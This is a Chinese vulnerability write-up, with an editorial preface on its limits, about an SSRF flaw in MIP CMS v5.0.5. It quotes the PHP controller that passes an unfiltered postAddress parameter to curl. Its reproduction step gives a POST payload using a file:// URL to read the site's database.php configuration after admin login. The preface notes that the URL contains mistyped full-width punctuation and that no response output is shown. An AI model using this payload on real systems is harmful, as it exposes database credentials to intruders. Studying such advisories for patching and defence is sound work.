

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台登录；curl支持file协议且可读取Windows目标；响应回显逻辑未贴

- **适用与权限边界（1）**：标题SSRF遗漏后台前提，例子实为file本地文件读而非已证内网请求。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（2）**：URL用全角？和末尾；，需文本修复；file路径语法和平台限定应说明。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **结论使用边界（3）**：只贴curl_exec未贴响应输出，不足单凭源码证明文件内容回传。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# MIP建站系统 v5.0.5 SSRF漏洞

一、漏洞简介
------------

二、漏洞影响
------------

MIP建站系统 v5.0.5

三、复现过程
------------

### 漏洞分析

进行简单的漏洞分析。根据漏洞定位代码文件：app/setting/controller/ApiAdminDomainSettings.php受影响代码：

    public function urlPost(Request $request) {
            $postAddress = input('post.postAddress');
            if (!$postAddress) {
                return jsonError('请先去设置推送的接口');
            }
            $api = trim($postAddress);
            if (strpos($api,'type=realtime') !== false || strpos($api,'type=batch') !== false) {
                if (!config('siteInfo')['guanfanghaoStatus']) {
                    return jsonError('检测到您未开启熊掌号，请开启后再推送');
                }
            }
            $url = input('post.url');
            $id = input('post.id');
            if (!$url) {
                return jsonError('没有检测到你推送的页面地址');
            }   
            $urls[] = $url;
            $ch = curl_init();
            $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options);
            $result = curl_exec($ch);

流程分析：

    1、$ postAddress = input('post.postAddress');  
        //POST方法将$postAddress参数传入

    2、$api = trim($postAddress);    
    $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options); 
        //赋予$api参数，一直至$ch，未进行任何过滤
    3、$result = curl_exec($ch);    
        //最后执行

### 漏洞复现

第一步，登陆该后台：

第二步，访问所受影响的代码文件：

    http://www.0-sec.org/index.php？s=/setting/ApiAdminDomainSettings/urlPost；
    POST方法进行请求，payload：  
    postAddress=file:///C:\phpStudy\PHPTutorial\WWW\app\database.php&url=test&id=test

参考链接
--------

> https://xz.aliyun.com/t/7431
